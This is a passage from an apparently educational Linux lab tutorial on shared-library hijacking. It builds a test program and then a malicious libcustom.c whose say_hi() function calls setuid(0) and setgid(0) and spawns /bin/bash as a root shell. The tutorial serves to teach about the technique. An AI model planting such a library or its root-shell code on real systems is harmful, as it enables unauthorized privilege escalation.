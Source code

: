 ```c
#ifndef say_hi_h__
#define say_hi_h__

extern void say_hi(void);

#endif  // say_hi_h__
```

Now we will write create a program that simply prints a message. I will name this file as `myexec.c`:

```bash
low@ubuntu:~/so-files$ vim myexec.c
```

This code imports the `libcustom.h` header file, the `main()` function prints a message and it executes the `say_hi()` function which is found in the header file `libcustom.h` and if the execution is successful it returns a status code of (0):

```c
#include <stdio.h>
#include "libcustom.h"

int main(){
    printf("Message from myexec.c!\n");
    say_hi();
    return 0;
}
```

Now create a new directory named `evil` and navigate there, this is where the malicious library will be placed:

```bash
low@ubuntu:~/so-files$ mkdir evil
low@ubuntu:~/so-files$ cd !$
cd evil
low@ubuntu:~/so-files/evil$ 
```

Lastly, we'll create the code that will be included in the malicious library file. I'll named this file as `libcustom.c`:

```bash
low@ubuntu:~/so-files/evil$ vim libcustom.c
```

This code sets the UID (0) which is the UID of the root user. Then it sets the GID of (0) which the root group. The next three lines print a message of their own. The last line spawns a bash shell:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

void say_hi(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library!\n");
    printf("I'm trying to spawn a root shell...\n");
    printf("Check your shell!\n");
    system("/bin/bash");
}
```
